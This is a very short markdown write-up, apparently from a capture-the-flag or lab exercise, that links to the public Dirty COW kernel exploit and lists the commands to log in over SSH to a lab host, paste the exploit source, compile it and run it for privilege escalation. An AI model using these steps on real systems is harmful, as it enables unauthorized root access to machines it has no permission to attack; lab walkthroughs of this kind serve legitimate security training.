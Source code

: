 # writeup4

download: https://github.com/FireFart/dirtycow/blob/master/dirty.c

- Connect to ssh with `ssh laurie@192.168.64.2`

```
vi dirty.c
## past the dirtycow
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
```
